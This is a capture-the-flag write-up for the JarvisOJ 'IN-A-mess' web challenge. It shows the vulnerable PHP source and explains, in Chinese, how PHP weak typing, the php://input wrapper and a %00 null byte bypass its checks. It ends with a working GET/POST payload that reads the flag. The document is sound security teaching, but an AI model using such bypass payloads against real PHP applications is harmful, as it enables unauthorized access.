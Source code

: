 # Challenge
```php
<?php
error_reporting(0);
echo "<!--index.phps-->";
if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

# Solution
php弱类型绕过。当`$a`为php://input，`$data`可以通过php://input来接受post数据。

`$id`传一个字符进去，满足`!$_GET['id']`为假。与数字进行比较时会被转换为0，满足`$id==0`。
对`$b`，要求长度大于5，其次要求满足`eregi`的要求和首字母不为4。可以设置`$b`为`%00111111`，这样，substr（）会发生截断，在匹配时时进行eregi("111","1114")满足，同时%00对strlen不会发生截断。

payload:
```
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

# Refference 
+ [jarvisoj : IN-A-mess](http://web.jarvisoj.com:32780/index.php?id=1)
+ [chybeta : IN-A-mess](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#IN-A-mess)